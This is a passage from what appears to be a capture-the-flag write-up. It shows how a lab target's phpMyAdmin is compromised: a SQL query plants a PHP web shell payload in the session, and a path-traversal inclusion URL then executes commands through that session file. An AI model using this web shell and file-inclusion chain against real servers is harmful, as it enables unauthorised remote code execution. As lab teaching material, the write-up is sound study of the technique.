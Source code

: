 [![](/img/1561706568973.png)*Click for full
size ![image*](/img/1561706568973.png)

Now it's just a matter of getting some php code I want to run on the
site. I can do that by issuing a SQL query, and then including my php
session info.

I'll click on the "SQL" tab at the top, and enter the query:



    SELECT '<?php system($_GET["cmd"]);?>'



Then I hit go:

![](/img/1561706788284.png)

Now, I'll include my php session info. I'll check burp to grab my
`phpMyAdmin` cookie, and visit:
`http://10.10.10.143/phpmyadmin/index.php?cmd=id&target=db_sql.php%3f/../../../../../var/lib/php/sessions/sess_e3qctegac4saf72rocbl1541j26u7mqm`:
